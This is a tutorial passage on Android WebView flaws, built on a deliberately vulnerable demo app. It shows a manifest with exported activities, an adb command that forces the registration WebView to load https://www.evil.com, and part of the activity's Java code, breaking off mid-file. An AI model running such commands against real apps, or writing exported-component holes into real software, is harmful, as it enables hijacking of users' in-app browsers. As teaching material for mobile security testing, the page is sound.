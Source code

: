 - Built on the Chromium engine, it acts as streamlined, in-app browser to render HTML, CSS and Javascript [Demo Application Vulnwebview](https://github.com/t4kemyh4nd/vulnwebview).
- WebViews are commonly used for tasks like displaying user agreements, in-app login pages, or links within socail media feeds, providing a more integrated and seamless user experience.

### WebView Vulnerabilities via the app's code ?
- If developer explicitly mentions `android:exported=true`, this parameter will taken adavatage by the third-pary applications sending intent this componet is exported third-paries has access to it. 

```bash title="AndroidManifest.xml" linenums="1" hl_lines="7-8"
<?xml version="1.0" encoding="utf-8"?>
<manifest xmlns:android="http://schemas.android.com/apk/res/android"
    package="com.tmh.vulnwebview">
    <uses-permission android:name="android.permission.INTERNET" />
    <uses-permission android:name="android.permission.READ_EXTERNAL_STORAGE" />
    <application
        <activity android:name=".SupportWebView" android:exported="true" />
        <activity android:name=".RegistrationWebView" android:exported="true" />
        <activity android:name=".MainActivity">
            <intent-filter>
                <action android:name="android.intent.action.MAIN" />
                <category android:name="android.intent.category.LAUNCHER" />
            </intent-filter>
        </activity>
    </application>
</manifest>
```
- You can exploit this using the `adb shell` manually starting the activity.
```bash
# https://github.com/t4kemyh4nd/vulnwebview/blob/main/app/src/main/java/com/tmh/vulnwebview/RegistrationWebView.java, line 45 has reg_url
adb shell am start -n com.tmh.vulnwebview.RegistrationWebView --es reg_url "https://www.evil.com"
# --es extra string
```
- Application code 
```java title="RegistrationWebView.java" linenums="1" hl_lines="34-37"
package com.tmh.vulnwebview;
import android.os.Bundle;
import android.util.Log;
import android.webkit.ConsoleMessage;
import android.webkit.WebChromeClient;
import android.webkit.WebView;
import android.webkit.WebViewClient;
import androidx.appcompat.app.AppCompatActivity;

public class RegistrationWebView extends AppCompatActivity {

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_registration_web_view);
        setTitle("Registration page");

        loadWebView();
    }

    private void loadWebView() {
        WebView webView = findViewById(R.id.webview);
        webView.setWebChromeClient(new WebChromeClient() {
            @Override
            public boolean onConsoleMessage(ConsoleMessage consoleMessage) {
                Log.d("MyApplication", consoleMessage.message() + " -- From line " +
                        consoleMessage.lineNumber() + " of " + consoleMessage.sourceId());
                return true;
            }
```